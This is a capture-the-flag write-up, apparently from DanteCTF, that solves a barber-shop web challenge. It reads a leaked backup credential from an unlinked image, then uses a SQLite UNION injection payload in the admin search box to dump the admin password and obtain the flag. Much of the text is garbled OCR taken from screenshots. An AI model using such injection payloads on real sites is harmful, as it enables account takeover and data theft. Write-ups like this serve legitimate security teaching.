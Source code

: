 # Dante Barber Shop
> Welcome to our renowned barber shop! Your task, should you choose to accept it, is to uncover hidden information and retrieve the sensitive data that the owners may have left around.

## About the Challenge
We were given a website about barber, there are 6 images in the homepage


[Image extracted text: Login
Welcome to Dante Barber Shop
Dante Barber Shop, located in Florence , takes inspiration from the renowned Italian
Dante Alighieri. Our
skilled barbers provide exceptional grooming services, combining traditional techniques with modern styles. Step
into our shop and experience the art of barbering in a warm and inviting atmosphere
We pride ourselves on
delivering personalized haircuts and beard trims to enhance your unique style
Our attention to detail and
commitment to customer satisfaction make us the go-to barbershop in the city: Don't forget to browse through the
pictures below to
a glimpse of our impeccable craftsmanship.
poet
get]


And also there is an admin panel functionality


[Image extracted text: Welcome to Dante
Barber Shop
Username:
Password:
Log in]


## How to Solve?
At first, I tried to bypass the login by using SQL and NoSQL injection payloads, but the attempt failed. Then, I checked the homepage and noticed something peculiar about the filenames of each image.


[Image extracted text: Our
attention
to
detail
commitment
customer
satisfaction
make
the
Don
forget
browse
through
the pictures
below
glimpse
of
our
impec
<[p>
<div
class=
image-grid">
src=
ingLbarber2_jpg"
alt=
Barber Shop
<img src="img[barber3_jpg
alt=
Barber
Shop
<img
src-"imgLbarberA-jpg
alt=
Barber Shop
src=
img[barber5_jpg
alt=
Barber
Shop"
<img src-"imgLbarber6_jpg
alt=
Barber Shop
src=
img[barberl_jpg
alt=
Barber
Shop
5
<div>
<div>
</body>
<fhtml>
and
get
<img
<img
<img]


Because `barber1.jpg` was missing, I tried to access the image by visiting `https://barbershop.challs.dantectf.it/img/barber1.jpg`, and luckily, we obtained a user credential.


[Image extracted text: < >
C
barbershopchalls dantectfit img/barber1
Backup User
barber
dant3barbershOp_cLIVeSidag
ljpg]


Use that credential to login to the website, and inside the admin panel, there is a search functinality and also a table containing customer list


[Image extracted text: Welcome; barberl
No flag for youl But you can check the list of customers!
Enter a keyword
Search
Customers:
Name
Surname
Phone
Alessandro
Rossi
+39 333 1234567
Beatrice
Bianchi
+39 335 2345678
Carlo
Ricci
+39 338 3456789
Davide
Marini
+39 340 4567890
Elena
Ferrari
+39 342 5678901
Federico
Romano
+39 344 6789012
Giulia
Gallo
+39 346 7890123
Hugo
Conti
+39 348 8901234
Isabella
De Luca
+39 350 9012345
Jacopo
Bruno
+39 352 0123456
Ludovica
Russo
+39 354 1234567
Matteo
Santoro
+39 356 2345678]


This functionality was vulnerable to SQLite injection, and in this case I will extract the admin credential using this payload

```
' union select 1,(SELECT username from users),(SELECT password from users),4-- -
```


[Image extracted text: Welcome; barberl
No
for youl But you can check the list of customers!
Enter a keyword
Search
Search result:
Name
Surname
Phone
Alessandro
Rossi
+39 333 1234567
admin
nSOrowLIstERiMbrUsHConesueyeadEr
Beatrice
Bianchi
+39 335 2345678
Carlo
Ricci
+39 338 3456789
flag]


Use that admin credential to login to admin panel again to obtain the flag


[Image extracted text: Welcome; admin!
DANTE{dant3_Is_inj3cting_everybOdy_aaxxaa}
Enter a keyword
Search
Customers:
Name
Surname
Phone
Alessandro
Rossi
+39 333 1234567
Beatrice
Bianchi
+39 335 2345678
Carlo
Ricci
+39 338 3456789
Davide
Marini
+39 340 4567890
Elena
Ferrari
+39 342 5678901
Federico
Romano
+39 344 6789012
Giulia
Gallo
+39 346 7890123]


```
DANTE{dant3_1s_inj3cting_everyb0dy_aaxxaa}
```